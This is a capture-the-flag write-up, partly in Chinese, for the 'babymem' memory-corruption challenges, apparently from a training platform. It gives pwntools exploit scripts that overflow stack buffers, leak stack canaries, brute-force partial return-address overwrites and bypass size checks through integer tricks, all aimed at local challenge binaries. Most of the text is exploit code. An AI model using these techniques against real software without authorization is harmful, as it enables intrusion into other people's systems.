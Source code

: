 level 1
from pwn import *

p=process(["/challenge/babymem_level1.1"])

n=77
p.sendlineafter("size: ",str(n))
p.sendlineafter(")!\n","1"*n)

p.interactive()

level 2
计算malloc_first和calloc的地址之差

level 3
             _________
input_add-->|_________|
     .      |_________|
     .      |_________|
     .      |_________|
rbp-------->|_________|
ret_addr--->|_________|

覆盖ret_addr为指定函数

level 4
利用负数绕过大小检测

level 5
利用乘法溢出绕过检测

level 6
直接跳到win函数内地址

level 7
有回显
from pwn import *

p=process(["/challenge/babymem_level8.0"])

#get base addr
p.recvuntil("(rsp+0x00d8)")
a=p.recvuntil("+")
add=a[-22:-4]
win_addr=int(add,16)
win_addr=win_addr-0x9f3

n=(176)
p.sendlineafter("Payload size: ",str(n))

payload=p64(win_addr)*22
p.sendlineafter(")!\n",payload)

p.interactive()

无回显
地址爆破
from pwn import *

p=process(["/challenge/babymem_level7.1"])

#get base addr

n=(122)
p.sendlineafter("Payload size: ",str(n))

payload=p64(0x0)*15+b'\xe1\x16'
p.sendlineafter(")!\n",payload)

p.interactive()

level 9
             _________
buffer----->|_________| \
            |_________|  \
            |_________|   |-->buffer_size
            |_________|  /
            |_________| /
            |____|____|<---var 'n'
rbp-------->|_________|
ret_addr--->|_________|

payload_size=(buffer-ret_addr-1)+3

payload=[byte_var(buffer-ret_addr-1)]*(buffer_size+1)+win_address

from pwn import *
for i in range(0x20):
    p=process(["/challenge/babymem_level9.1"])

    n=0x6a
    p.sendlineafter("Payload size: ",str(n))

    payload=b'\x67'*0x51+b'\x24\x40'
    p.sendlineafter(")!\n",payload)

    p.interactive()

level 10
                  _________
buffer---------->|_________|
                 |_________|
                 |_________|
flag_val-------->|_________|
                 |_________|
                 |_________|
覆盖成连续即可泄露出flag值。

level 11
同level 10，只是换在堆上。

level 12
from pwn import *
for i in range(0x10):
    p=process(["/challenge/babymem_level12.0"])
    #p=remote("127.0.0.1","1337")
    
    n=0x49
    p.sendlineafter("Payload size: ",str(n))

    payload=b'\x90'*(n-1-6)+b'REPEAT'
    p.sendlineafter(")!\n",payload)
    
    p.recvuntil("You said: ")

    p.recvuntil("\n",drop=1)
    recv_data=p.recv(7)
    can=b'\x00'+recv_data
    cc=u64(can)
    print(hex(cc))
    
    n=0x58+2
    p.sendlineafter("Payload size: ",str(n))

    payload=b'\x90'*(0x48)+p64(cc)+p64(0x90)+b'\x74\x47'
    p.sendlineafter(")!\n",payload)
    
    p.interactive()


level 14.0
printf泄露canory，再次调用覆写返回地址。
from pwn import *
for i in range(0x20):
    p=process(["/challenge/babymem_level14.0"])

    n=0x69
    p.sendlineafter("Payload size: ",str(n))

    payload=b'\x90'*(0x69-1-6)+b'REPEAT'
    p.sendlineafter(")!\n",payload)
    
    p.recvuntil("You said: ")

    recv_data=p.recvuntil("This",drop=1)
    can=b'\x00'+recv_data[-12:-5]
    cc=u64(can)
    print(hex(cc))

    n=0x188+2
    p.sendlineafter("Payload size: ",str(n))

    payload=b'\x90'*(0x180-8)+p64(cc)+p64(0x90)+b'\x3b\x44'
    p.sendlineafter(")!\n",payload)


    p.interactive()

level 15
